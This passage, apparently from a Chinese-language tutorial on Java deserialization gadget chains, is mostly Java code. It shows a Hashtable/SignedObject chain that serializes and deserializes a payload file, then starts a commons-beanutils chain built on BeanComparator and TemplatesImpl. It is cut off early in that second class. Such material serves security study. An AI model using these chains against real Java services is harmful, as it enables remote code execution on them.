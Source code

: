 ```java
        HashMap hashMap3 = new HashMap();  
        hashMap3.put("yy", bean2);  
        hashMap3.put("zZ", signedObject);  
  
        HashMap hashMap4 = new HashMap();  
        hashMap4.put("yy", signedObject);  
        hashMap4.put("zZ", bean2);  
  
        Hashtable table2 = new Hashtable();  
        table2.put(hashMap3, "1");  
        table2.put(hashMap4, "2");  
  
        setValue(bean2, "_beanClass", SignedObject.class);  
        setValue(bean2, "_obj",signedObject);  
  
        serilize(table2);  
        deserilize("111.bin");  
    }  
    public static void serilize(Object obj)throws IOException {  
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("111.bin"));  
        out.writeObject(obj);  
    }  
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{  
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));  
        Object obj=in.readObject();  
        return obj;  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
}
```

### commons-beanutils 链

cb 链中又有什么能调用 getter 方法呢？CB链中有个这个类 `BeanComparator` ，直接构造：

```java
package org.example;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.beanutils.BeanComparator;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.security.KeyPair;  
import java.security.KeyPairGenerator;  
import java.security.Signature;  
import java.security.SignedObject;  
import java.util.PriorityQueue;  
public class cbser {  
    public static void main(String[] args)throws Exception {  
  
        TemplatesImpl tem =new TemplatesImpl();  
```